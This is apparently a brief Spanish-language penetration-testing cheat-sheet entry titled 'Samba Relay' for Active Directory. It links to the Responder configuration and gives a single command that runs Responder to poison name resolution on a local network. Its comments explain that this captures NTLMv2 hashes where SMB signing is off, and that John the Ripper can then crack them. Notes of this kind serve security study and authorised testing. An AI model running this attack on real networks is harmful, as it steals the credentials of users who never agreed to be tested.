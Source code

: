 # Samba Relay 

Tags: #SambaRelay #ActiveDirectory

* [Responder-Samba-Relay](https://github.com/SpiderLabs/Responder/blob/master/Responder.conf)

```python 
❯ python3 Responder.py -I eth0 -rdw           # Comando para iniciar el ataque y envenenar la red

	# Conseguirmos conseguir el Hash 'NTLMv2' ya que Samba no esta firmado, esto se hace en IPV4
	# Los Hashes los podemos crackear con 'John the Ripper' 
```